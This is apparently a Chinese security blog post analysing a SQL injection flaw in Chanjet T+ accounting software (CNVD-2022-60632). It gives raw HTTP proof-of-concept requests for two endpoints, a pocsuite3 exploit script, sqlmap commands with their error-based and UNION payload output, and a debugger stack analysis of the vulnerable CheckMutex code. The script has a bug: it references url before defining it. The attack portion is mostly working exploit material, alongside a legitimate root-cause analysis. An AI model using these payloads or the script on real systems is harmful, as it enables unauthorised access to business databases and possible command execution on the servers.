



概述：畅捷通T+ SQL 注入漏洞(含POC)
免责声明：本文所涉及的信息安全技术知识仅供参考和学习之用，并不构成任何明示或暗示的保证。读者在使用本文提供的信息时，应自行判断其适用性，并承担由此产生的一切风险和责任。本文作者对于读者基于本文内容所做出的任何行为或决定不承担任何责任。在任何情况下，本文作者不对因使用本文内容而导致的任何直接、间接、特殊或后果性损失承担责任。读者在使用本文内容时应当遵守当地法律法规，并保证不违反任何相关法律法规。
[toc]

漏洞说明
畅捷通T+SQL注入漏洞，未经身份认证的远程攻击者可在易受攻击系统上执行任意SQL语句，某些情况下攻击者利用该漏洞可在底层操作系统上执行shell命令。
POC
畅捷通T+ 13.0
畅捷通T+ 16.0
POC
poc
POST /tplus/ajaxpro/Ufida.T.SM.UIP.MultiCompanyController,Ufida.T.SM.UIP.ashx?method=CheckMutex HTTP/1.1
Host: 192.168.19.137:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/css,*/*;q=0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 53
{"accNum": "3'and (select @@version)>0--", "functionTag": "SYS0104", "url": ""}使用 pocsuit
from collections import OrderedDict
from urllib.parse import urljoin
import re
from pocsuite3.api import Output, POCBase, POC_CATEGORY, register_poc, requests, VUL_TYPE
from pocsuite3.api import OrderedDict, OptString
from urllib3.exceptions import InsecureRequestWarning
import json
import os
class ChanJetPOC(POCBase):
vulID = '0' # ssvid ID 如果是提交漏洞的同时提交 PoC,则写成 0
version = '1' # 默认为1
author = [''] # PoC作者的大名
vulDate = '2022-09-23' # 漏洞公开的时间,不知道就写今天
createDate = '2022-09-23' # 编写 PoC 的日期
updateDate = '2022-09-23' # PoC 更新的时间,默认和编写时间一样
references = [''] # 漏洞地址来源,0day不用写
name = '畅捷通T+ SQL上传' # PoC 名称
appPowerLink = '' # 漏洞厂商主页地址
appName = '畅捷通T+' # 漏洞应用名称
appVersion = '''13.0 <= 畅捷通T+单机版<=16.0且使用IIS10.0以下版本''' # 漏洞影响版本
vulType = VUL_TYPE.UPLOAD_FILES # 漏洞类型,类型参考见 漏洞类型规范表
desc = '''
CNVD-2022-60632 畅捷通T+ SQL漏洞
'''
# 漏洞简要描述
samples = [''] # 测试样列,就是用 PoC 测试成功的网站
install_requires = [''] # PoC 第三方模块依赖，请尽量不要使用第三方模块，必要时请参考《PoC第三方模块依赖说明》填写
pocDesc = '''
检测:pocsuite -r .\poc++.py -u url(-f url.txt) --verify
'''
category = POC_CATEGORY.EXPLOITS.REMOTE
def _verify(self):
if self.url.endswith("/"):
path = "tplus/ajaxpro/Ufida.T.SM.UIP.MultiCompanyController,Ufida.T.SM.UIP.ashx?method=CheckMutex"
else:
path = "/tplus/ajaxpro/Ufida.T.SM.UIP.MultiCompanyController,Ufida.T.SM.UIP.ashx?method=CheckMutex"
result = {}
headers = {
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36',
}
if not self.url.startswith('http://') and not url.startswith('https://'):
url = 'http://' + self.url
url = self.url + path
headers['Content-Type'] = "application/x-www-form-urlencoded"
data = '''{"accNum": "3'and (select @@version)>0--", "functionTag": "SYS0104", "url": ""}
# data = '''{"accNum": "3' AND (select )-- NCab", "functionTag": "SYS0104", "url": ""}
'''
print(f"数据: {data}")
print(f"扫描目标: {url}")
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
repData =requests.post(url, headers=headers, data=data, timeout=1000, verify=False)
print(f"响应: {repData.text}")
if "Microsoft SQL Server" in repData.text and "error" not in repData.text:
#if repData.status_code == 200:
result['VerifyInfo'] = {}
result['VerifyInfo']['URL'] = url
result['VerifyInfo']['message'] = repData.text
result['VerifyInfo']['shell'] = self.url + '/tplus/UFAQD/InitServerInfo.aspx?preload=1'
except Exception as e:
print(e)
return
return self.parse_output(result)
def _attack(self):
return self._verify()
def parse_attack(self, result):
output = Output(self)
if result:
output.success(result)
else:
output.fail('target is not vulnerable')
return output
def _shell(self):
return
def parse_output(self, result):
output = Output(self)
if result:
output.success(result)
else:
output.fail('target is not vulnerable')
return output
register_poc(ChanJetPOC)
使用 pocsuit 执行上述 poc 结果如下所示：

可以看到执行的 POC 为 {"accNum": "3'and (select @@version)>0--", "functionTag": "SYS0104", "url": ""} ，查询语句为 select @@version ，并且查询返回了 SQL Server 的版本为 Microsoft SQL Server 2022 (RTM)……。
使用 SqlMap 检测
根据上述 POC 编写 sqlmap 的检测文件。
# sql.txt
POST /tplus/ajaxpro/Ufida.T.SM.UIP.MultiCompanyController,Ufida.T.SM.UIP.ashx?method=CheckMutex HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/css,*/*;q=0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 53
{"accNum": "3'", "functionTag": "SYS0104", "url": ""}使用 sqlmap 执行上述检测文件，如果为 sqlmap 不熟悉，可以参考这篇文章：【SQL注入】Sqlmap使用指南(手把手保姆版)持续更新_web union sql 注入 测试工具-CSDN博客
python sqlmap.py -r sql.txt --random-agent -v 3 --dbms mssql --hex -p "accNum" --batch这里对上述执行命令稍加说明：
-r: 指定从文件中加载 http 请求
--random-agent：使用随机选择的HTTP User-Agent头部值
-v: 详细级别: 0-6（默认为1）
--dbms: 指定是数据库名
--hex: 在数据检索过程中使用十六进制转换
-p: 可测试的参数
--batch: 不要询问用户输入,使用默认行为
运行完上述命令之后就会生成 sql 漏洞相关注入点，以畅捷通 SQL 漏洞为例，输出如下所示：
sqlmap identified the following injection point(s) with a total of 56 HTTP(s) requests:
---
Parameter: JSON accNum ((custom) POST)
Type: error-based
Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
Payload: {"accNum": "3' AND 3159 IN (SELECT (CHAR(113)+CHAR(120)+CHAR(107)+CHAR(106)+CHAR(113)+(SELECT (CASE WHEN (3159=3159) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(98)+CHAR(118)+CHAR(113)+CHAR(113)))-- zxmb", "functionTag": "SYS0104", "url": ""}
Vector: AND [RANDNUM] IN (SELECT ('[DELIMITER_START]'+([QUERY])+'[DELIMITER_STOP]'))
Type: UNION query
Title: Generic UNION query (NULL) - 22 columns
Payload: {"accNum": "3' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CHAR(113)+CHAR(120)+CHAR(107)+CHAR(106)+CHAR(113)+CHAR(72)+CHAR(103)+CHAR(87)+CHAR(72)+CHAR(115)+CHAR(109)+CHAR(84)+CHAR(82)+CHAR(117)+CHAR(65)+CHAR(80)+CHAR(105)+CHAR(112)+CHAR(84)+CHAR(81)+CHAR(66)+CHAR(116)+CHAR(120)+CHAR(73)+CHAR(103)+CHAR(106)+CHAR(79)+CHAR(71)+CHAR(102)+CHAR(80)+CHAR(110)+CHAR(104)+CHAR(75)+CHAR(113)+CHAR(116)+CHAR(82)+CHAR(114)+CHAR(112)+CHAR(117)+CHAR(82)+CHAR(104)+CHAR(89)+CHAR(105)+CHAR(114)+CHAR(73)+CHAR(113)+CHAR(98)+CHAR(118)+CHAR(113)+CHAR(113),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- nhDS", "functionTag": "SYS0104", "url": ""}
Vector: UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,[QUERY],NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL[GENERIC_SQL_COMMENT]
---
web server operating system: Windows
web application technology: Nginx 1.16.1, ASP.NET, ASP.NET 4.0.30319
back-end DBMS: Microsoft SQL Server 2022以下是【文心一言】对上述结果的解读：
SQLMap 的输出显示了它已识别到的 SQL 注入点，并提供了详细的注入类型和对应的 payload。这是它自动检测到的潜在安全漏洞。
以下是关于输出的一些解释：
- 注入点信息
- 参数：
JSON accNum是一个 JSON 格式的 POST 请求参数，它是 SQL 注入的入口点。- 类型
- error-based：基于错误的注入类型，它利用数据库错误消息来推断 SQL 查询的结构。
- UNION query：UNION 查询注入类型，它利用 SQL 的 UNION 语句来合并多个查询结果。
- Payload
- Payload 是 SQLMap 构造的恶意输入，用于触发 SQL 注入并提取信息。例如，
3' AND 3159 IN (SELECT ...就是一个用于触发基于错误的注入的 payload。- Vector
- Vector 是 SQLMap 使用的注入模板，用于构造具体的 payload。
- Web 服务器操作系统和技术
- SQLMap 还识别了目标服务器的操作系统（Windows）以及使用的 web 技术（Nginx 1.16.1, ASP.NET, ASP.NET 4.0.30319）。
- 后端数据库管理系统
- 识别出的后端数据库是 Microsoft SQL Server 2022。
根据这些信息，您可以进一步分析目标系统的安全性，并考虑采取适当的措施来修复这些 SQL 注入漏洞。这可能包括更新或修补应用程序代码、使用参数化查询或预编译的语句来防止 SQL 注入，以及限制对数据库的访问权限等。
请注意，在实际环境中，一旦发现了 SQL 注入漏洞，您应该立即通知相关的系统管理员或安全团队，并避免未经授权地访问或利用这些漏洞。
堆栈分析
SQL 执行堆栈
SQL 执行函数：
ExecuteReader 执行的 SQL 注入的参数：
“select id,UseLogID,Acaa_Num,UserID,UserName,PersonName,Url,HostAddress,HostName,FunctionTag,FunctionName,BeginTime,State,Version,Description,TaskID,ModelClassType,ModelType,ClientType,ServerAddress from EAP_Mutex with(nolock) where userid <> N” and Acaa_Num = N’6’and (select @@version)>0— N’ and Version = ‘YWTPro N’ order by begintime”
System.Data.dll!System.Data.SqlClient.SqlCommand.ExecuteReader(System.Data.CommandBehavior behavior, string method) (IL=0x0000, Native=0x00007FF928E40F90+0x37)
// 原型
// Token: 0x060019A2 RID: 6562 RVA: 0x000B587C File Offset: 0x000B4C7C
internal SqlDataReader ExecuteReader(CommandBehavior behavior, string method)
{
SqlConnection.ExecutePermission.Demand();
this._pendingCancel = false;
SqlStatistics statistics = null;
TdsParser target = null;
RuntimeHelpers.PrepareConstrainedRegions();
bool success = false;
int? sqlExceptionNumber = null;
SqlDataReader result;
try
{
this.WriteBeginExecuteEvent();
target = SqlInternalConnection.GetBestEffortCleanupTarget(this._activeConnection);
statistics = SqlStatistics.StartTimer(this.Statistics);
SqlDataReader sqlDataReader = this.RunExecuteReader(behavior, RunBehavior.ReturnImmediately, true, method);
success = true;
result = sqlDataReader;
}
catch (SqlException ex)
{
sqlExceptionNumber = new int?(ex.Number);
throw;
}
catch (OutOfMemoryException e)
{
this._activeConnection.Abort(e);
throw;
}
catch (StackOverflowException e2)
{
this._activeConnection.Abort(e2);
throw;
}
catch (ThreadAbortException e3)
{
this._activeConnection.Abort(e3);
SqlInternalConnection.BestEffortCleanup(target);
throw;
}
finally
{
SqlStatistics.StopTimer(statistics);
this.WriteEndExecuteEvent(success, sqlExceptionNumber, true);
}
return result;
}漏洞堆栈
Ufida.T.SM.UIP.dll!Ufida.T.SM.UIP.MultiCompanyController.CheckMutex(string url, string accNum, string functionTag) (IL=prolog, Native=0x00007FF8F4474D30+0x0)
[本机到托管的转换]
mscorlib.dll!System.Reflection.RuntimeMethodInfo.UnsafeInvokeInternal(object obj, object[] parameters, object[] arguments) (IL≈0x0016, Native=0x00007FF94CA3F9A0+0x84)
mscorlib.dll!System.Reflection.RuntimeMethodInfo.Invoke(object obj, System.Reflection.BindingFlags invokeAttr, System.Reflection.Binder binder, object[] parameters, System.Globalization.CultureInfo culture) (IL=epilog, Native=0x00007FF94CA57300+0x92)
mscorlib.dll!System.Reflection.MethodBase.Invoke(object obj, object[] parameters) (IL=epilog, Native=0x00007FF94CAD6AE0+0x22)
AjaxPro.2.dll!AjaxPro.AjaxProcHelper.Run() (IL≈0x066C, Native=0x00007FF8F44599A0+0xAD3)
AjaxPro.2.dll!AjaxPro.AjaxSyncHttpHandler.ProcessRequest(System.Web.HttpContext context) (IL=0x0010, Native=0x00007FF8F4459900+0x3A)
System.Web.dll!System.Web.HttpApplication.CallHandlerExecutionStep.System.Web.HttpApplication.IExecutionStep.Execute() (IL≈0x018D, Native=0x00007FF93CA37CD0+0x21E)
System.Web.dll!System.Web.HttpApplication.ExecuteStepImpl(System.Web.HttpApplication.IExecutionStep step) (IL=epilog, Native=0x00007FF93C9FADA0+0x4B)
System.Web.dll!System.Web.HttpApplication.ExecuteStep(System.Web.HttpApplication.IExecutionStep step, ref bool completedSynchronously) (IL≈0x0015, Native=0x00007FF93C9FAE00+0x5D)
System.Web.dll!System.Web.HttpApplication.PipelineStepManager.ResumeSteps(System.Exception error) (IL≈0x027A, Native=0x00007FF93CA0E650+0x5CF)
System.Web.dll!System.Web.HttpApplication.BeginProcessRequestNotification(System.Web.HttpContext context, System.AsyncCallback cb) (IL=0x0031, Native=0x00007FF93C9F9AB0+0x7D)
System.Web.dll!System.Web.HttpRuntime.ProcessRequestNotificationPrivate(System.Web.Hosting.IIS7WorkerRequest wr, System.Web.HttpContext context) (IL≈0x00B0, Native=0x00007FF93CA0CCA0+0xE0)
System.Web.dll!System.Web.Hosting.PipelineRuntime.ProcessRequestNotificationHelper(System.IntPtr rootedObjectsPointer, System.IntPtr nativeRequestContext, System.IntPtr moduleData, int flags) (IL≈0x0131, Native=0x00007FF93C9FBE90+0x4DC)
System.Web.dll!System.Web.Hosting.PipelineRuntime.ProcessRequestNotification(System.IntPtr rootedObjectsPointer, System.IntPtr nativeRequestContext, System.IntPtr moduleData, int flags) (IL≈0x0000, Native=0x00007FF93C9FBE50+0x14)
[托管到本机的转换]
System.Web.dll!System.Web.Hosting.PipelineRuntime.ProcessRequestNotificationHelper(System.IntPtr rootedObjectsPointer, System.IntPtr nativeRequestContext, System.IntPtr moduleData, int flags) (IL≈0x01E7, Native=0x00007FF93C9FBE90+0x607)
System.Web.dll!System.Web.Hosting.PipelineRuntime.ProcessRequestNotification(System.IntPtr rootedObjectsPointer, System.IntPtr nativeRequestContext, System.IntPtr moduleData, int flags) (IL≈0x0000, Native=0x00007FF93C9FBE50+0x14)
[程序域转换]主要看方法 UfIDA.T.SM.UIP.dll!UfIDA.T.SM.UIP.MultiCompanyController.CheckMutex(string url, string accNum, string functionTag)
入参如下所示：
其中 CheckMutex 的属性为 AjaxMethod ，然后我们根据入参提供对应的参数即可。

可以看到需要满足 functionTag 为 SYS0104，才能执行 CheckUserFunction 函数，而 CheckUserFunction 执行的就是 accNum 的值。
然后在执行畅捷通接口 Ufida.T.EAP.Mutex.Interface.IMutex.CheckUserFunction 时报了异常，但是仍然执行了 SQL 。

在异常信息中可以看到
$exception.SqlString = "select id,UseLogID,Acaa_Num,UserID,UserName,PersonName,Url,HostAddress,HostName,FunctionTag,FunctionName,BeginTime,State,Version,Description,TaskID,ModelClassType,ModelType,ClientType,ServerAddress from EAP_Mutex with(nolock) where userid <> N'' and Acaa_Num = N'3'and (select @@version)>0-- N' and Version = 'YWTPro N' order by begintime"可以看下注入前与注入后的SQL语句对比：
select
id,
UseLogID,
Acaa_Num,
UserID,
UserName,
PersonName,
Url,
HostAddress,
HostName,
FunctionTag,
FunctionName,
BeginTime,
State,
Version,
Description,
TaskID,
ModelClassType,
ModelType,
ClientType,
ServerAddress
from EAP_Mutex
with(nolock)
# 上边代码一致
# 注入前
where
userid <> N'' and
Acaa_Num = N'3N' and
Version = 'YWTPro N'
# 注入后
where
userid <> N'' and
Acaa_Num = N'3' and
(select @@version)>0-- N' and
Version = 'YWTPro N'
然后在执行时因为报错，返回了异常信息，也就返回了我们要执行的查询结果，异常捕捉的堆栈如下所示：
在 Ufida.T.EAP.Aop.Dynamic.LocalCallDynamicProxyImpl.NormalInvoke(MethodBase method, Object[] args, Boolean needFreeCuid)\r\n
在 Ufida.T.EAP.Aop.Dynamic.LocalCallDynamicProxyImpl.Invoke(IMessage message)\r\n
在 System.Runtime.Remoting.Proxies.RealProxy.PrivateInvoke(MessageData& msgData, Int32 type)\r\n
在 Ufida.T.EAP.Mutex.Interface.IMutex.CheckUserFunction(String accountNum)\r\n
在 Ufida.T.SM.UIP.MultiCompanyController.CheckMutex(String url, String accNum, String functionTag)使用 DNSpy 反编译之后可以看到，CheckMutexDelete 方法也可以用于该漏洞，需要在 请求体添加 dsName 参数：
POST /tplus/ajaxpro/Ufida.T.SM.UIP.MultiCompanyController,Ufida.T.SM.UIP.ashx?method=CheckMutexDelete HTTP/1.1
Host: 192.168.19.137:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/css,*/*;q=0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 53
{"accNum": "3'and (select @@version)>0--", "functionTag": "SYS0104", "url": "", "dsName":""}